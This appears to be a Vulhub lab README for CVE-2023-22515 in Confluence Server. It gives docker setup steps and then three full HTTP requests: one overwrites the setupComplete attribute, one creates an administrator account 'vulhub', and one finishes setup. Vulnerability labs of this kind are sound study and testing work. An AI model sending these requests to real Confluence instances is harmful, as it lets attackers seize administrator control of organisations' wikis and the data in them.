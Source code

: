 # Confluence Access Control Broken by Attributes Overwrite (CVE-2023-22515)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

On October 4, 2023, Atlassian published a security advisory on CVE-2023-22515, a critical vulnerability affecting on-premises instances of Confluence Server and Confluence Data Center. CVE-2023-22515 was originally announced as a privilege escalation vulnerability, but was later changed to a broken access control flaw.

Versions prior to 8.0.0 are not affected by this vulnerability.

References:

- <https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html>
- <https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis>

## Vulnerable Environment

Execute following command to start a Confluence Server 8.5.1:

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.

Following [this guide](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396) to complete the installation.

On the database configuration page, fill in the form with database address `db`, database name `confluence`, username `postgres`, password `postgres`.

![](1.png)

## Exploit

Firstly, send the main request to overwrite the attribute `bootstrapStatusProvider.applicationConfig.setupComplete`:

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

Then, you will be able to create a administrator user `vulhub` through the website setup action:

```
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

Optionally, send the following request to finish the setup wizard:

```
POST /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check


```

Finally, you can simply login to the administrator panel with account `vulhub` and password `vulhub`:

![](2.png)
